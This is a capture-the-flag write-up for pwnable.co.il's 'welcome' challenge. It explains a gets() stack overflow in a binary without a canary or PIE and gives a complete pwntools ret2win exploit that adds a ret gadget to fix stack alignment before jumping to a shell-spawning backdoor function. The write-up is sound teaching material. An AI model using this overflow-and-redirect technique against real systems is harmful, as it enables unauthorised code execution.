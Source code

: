 ```yaml
---
title: "pwnable.co.il - welcome"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "simple ret2win challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> Welcome to Pwnable.co.il!
> I hope you'll like this one...

### Protections:
<pre>    Arch:       amd64-64-little
    RELRO:      <font color="#FFBC51">Partial RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#FF3C3C">No PIE (0x400000)</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Let's start by extracting the ELF file from the zip and analyzing it with the Hex-Rays decompiler:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char name[32]; // [rsp+0h] [rbp-20h] BYREF

  init_buffering(argc, argv, envp);
  puts("Welcome to pwnable.co.il!");
  puts("What is your name?");
  gets(name);
  printf("Thank you %s!\n", name);
  return 1;
}
```
We can easily see the vuln, the program uses the function `gets()`,
this gives us a buffer overflow (a.k.a BOF) primitive, so we can overwrite stack data beyond the `name` buffer, including the saved return address of the function itself.

According to to the protections, the program also lacks a `stack canary` and is not `PIE`, 
so overwriting the return address with gadgets or functions from the program and even building a ROP chain is a good approach.

### Functions symbols list:
[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)

From the static symbol list we found an interesting function called `secret_backdoor`, so let’s examine it.


[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)

This function is acttually a `win()` function, when called it invokes `system("/bin/sh")` which spawns a shell immediately. 
That makes calling `secret_backdoor` a straightforward path to code execution, so lets try it!


### Initial attempt
To overwrite the saved return address we fill the `name` buffer and the saved `RBP`, The offset from the start of `name` to the return address is 32 (the length of `name` buffer) + 8 (saved `RBP`) = 40 bytes.
So send 40 bytes of padding followed by the address of `secret_backdoor`.

## Example script
```py
from pwn import *

exe = ELF('./welcome')

p = process('./welcome')
payload = cyclic(40) # 32 (name) + 8 (saved RBP)
payload += p64(exe.sym.secret_backdoor)

p.sendline(payload)
p.interactive()
```

oooops... we got an `EOF while reading in interactive` error, which means the program exited (or crashed) before `p.interactive()` could hand us a shell... 
lets debug by replacing `process()` with `gdb.debug()` (or attach gdb to the process) so we can see whats happening when our payload runs.


[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)

Now the problem is clear! The `do_system` path inside `system()` uses `movaps` opcode, which requires `16-byte aligned` memory operands. If the stack isn’t `16-byte aligned` when `system()` runs, that instruction faults and the program dies (hence the `EOF` / crash..).

The easiest fix here is to place a single `ret gadget` before calling `secret_backdoor()`, that `ret` realigns the stack to `16-bytes` so `system()` won’t fault.

## Exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './welcome')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9000)

### defines ###
PADDING = 40

### gadgets ###
ret = 0x000000000040076c

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def main():
    ### run ###
    io = start()

    ### payload ###
    payload = cyclic(PADDING) # reach the return address.
    payload += p64(ret) # realign the stack so movaps opcode won't fail.
    payload += p64(exe.sym.secret_backdoor) # call win function.
 
    io.sendline(payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
